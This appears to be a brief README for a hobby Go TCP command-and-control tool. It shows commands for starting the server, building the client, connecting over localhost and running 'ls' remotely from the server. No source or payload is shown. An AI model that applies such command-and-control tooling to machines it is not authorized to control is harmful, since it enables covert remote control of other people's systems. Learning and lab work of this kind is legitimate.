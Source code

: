 # Golang TCP C2 (tcp)

I used this TCP client/server [example](https://www.linode.com/docs/guides/developing-udp-and-tcp-clients-and-servers-in-go/) and built a very basic C2

## Starting the server

```
go run tcp_server.go 1234
[+] Listening on port 1234
```

Starting the server

## Building the client

```
go build tcp_client.go
```

Build the client

## Usage

```
./tcp_client 127.0.0.1:1234
```

Running the client and connecting to the server

```
go run tcp_server.go 1234
[+] Listening on port 1234
>> ls
[+] Output from ls

README.md
tcp_client.go
tcp_server.go
```

Running the server and executing the ls command on the client
